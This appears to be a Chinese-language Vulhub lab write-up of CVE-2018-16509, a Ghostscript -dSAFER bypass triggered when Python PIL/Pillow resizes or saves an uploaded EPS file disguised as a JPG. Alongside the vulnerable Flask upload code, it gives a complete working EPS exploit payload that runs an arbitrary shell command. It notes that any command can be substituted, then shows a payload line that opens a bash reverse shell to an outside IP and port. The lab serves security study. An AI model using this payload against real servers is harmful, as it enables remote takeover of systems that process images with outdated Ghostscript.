


# Python PIL 远程命令执行漏洞 CVE-2018-16509

## 漏洞描述

通过 Ghostscript CVE-2018-16509 执行 Python PIL/Pillow 远程 Shell 命令。

Ghostscript 是一套基于 Adobe、PostScript 及可移植文档格式（PDF）的页面描述语言等而编译成的免费软件。Ghostscript 常常作为另一个软件（例如 ImageMagick）的依赖项安装在生产服务器中（例如 `/usr/local/bin/gs`，或 `/usr/bin/gs`) 。

CVE-2018-16509 漏洞允许在 v9.24 之前的 Ghostscript 中通过 -dSAFER 实现绕过，通过处理 PostScript 中的失败恢复 (grestore) 来执行任意命令，禁用 LockSafetyParams ，避免无效访问。

此漏洞存在于 ImageMagick 等库或带有 Ghotscript 的编程语言中的图像库（本例中为 PIL/Pillow）中。

## 环境搭建

Vulhub 运行环境：

```
docker-compose up -d
```

运行后，访问 `http://your-ip:8000/` 即可看到一个上传页面。

## 漏洞分析

可以通过上传 [rce.jpg](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2018-16509/rce.jpg) （一个 EPS 图像，并不是一个真正的 JPG）来在服务器中执行命令 `touch /tmp/got_rce`。

通过命令 `docker container ls` 获取容器 ID。

如果想执行其他命令，可以在 rce.jpg 中修改命令 `touch /tmp/got_rce` 为任意其他命令。

可以参考 Tavis Ormandy 在 [oss-security](https://seclists.org/oss-sec/2018/q3/142) 中对漏洞的解释。

可以在 [EPSImagePlugin.py](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/EpsImagePlugin.py) 中查看 PIL/Pillow 中 Ghostscript 的源代码。

易受攻击的代码如下，例如 app.py：

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        file = request.files.get('image', None)

        if not file:
            flash('No image found')
            return redirect(request.url)

        filename = file.filename
        ext = path.splitext(filename)[1]

        if (ext not in ['.jpg', '.jpeg', '.png', '.gif', '.bmp']):
            flash('Invalid extension')
            return redirect(request.url)

        tmp = tempfile.mktemp("test")
        img_path = "{}.{}".format(tmp, ext)

        file.save(img_path)

        img = Image.open(img_path)
        w, h = img.size
        ratio = 256.0 / max(w, h)

        resized_img = img.resize((int(w * ratio), int(h * ratio)))
        resized_img.save(img_path)
```

上传文件将通过 `img = Image.open(img_path)` 加载。PIL 将自动检测图片是否为 EPS 图片（例如，文件头为 `%!PS-Adobe-3.0 EPSF-3.0`）。随后，将调用 EpsImageFile 类 EPSImagePlugin.py 文件中的 `_open()` 函数。

为了避免触发错误 `raise IOError("cannot determine EPS bounding box")`，文件中将加入边界框信息（例如，`%%BoundingBox: -0 -0 100 100`）。

EPS 图像将被 EPSImagePlugin.py 文件中的 `Ghostscript` 函数的 `subprocess` 进行处理：

```python
    # Build Ghostscript command
    command = ["gs",
               "-q",                         # quiet mode
               "-g%dx%d" % size,             # set output geometry (pixels)
               "-r%fx%f" % res,              # set input DPI (dots per inch)
               "-dBATCH",                    # exit after processing
               "-dNOPAUSE",                  # don't pause between pages
               "-dSAFER",                    # safe mode
               "-sDEVICE=ppmraw",            # ppm driver
               "-sOutputFile=%s" % outfile,  # output file
               "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                             # adjust for image origin
               "-f", infile,                 # input file
               "-c", "showpage",             # showpage (see: https://bugs.ghostscript.com/show_bug.cgi?id=698272)
               ]


    ....

    try:
        with open(os.devnull, 'w+b') as devnull:
            startupinfo = None
            if sys.platform.startswith('win'):
                startupinfo = subprocess.STARTUPINFO()
                startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
            subprocess.check_call(command, stdin=devnull, stdout=devnull,
                                  startupinfo=startupinfo)
```

以上代码将在 Image.py 文件中的 `load` 被调用的时候才会被调用，所以只打开图片不会触发漏洞。` resize`、 `crop`、`rotate`、和 `save` 函数将会调用 `load` ，并触发漏洞。

结合 Tavis Ormandy 的 POC，我们可以制作 `rce.jpg`，实现远程 shell 命令执行。

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

成功执行命令 `touch /tmp/got_rce`：



将 `touch /tmp/tmp/got_rce` 命令改为反弹 shell 命令：

```
mark /OutputFile (%pipe%bash -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1") currentdevice putdeviceprops
```

成功接收反弹 shell：


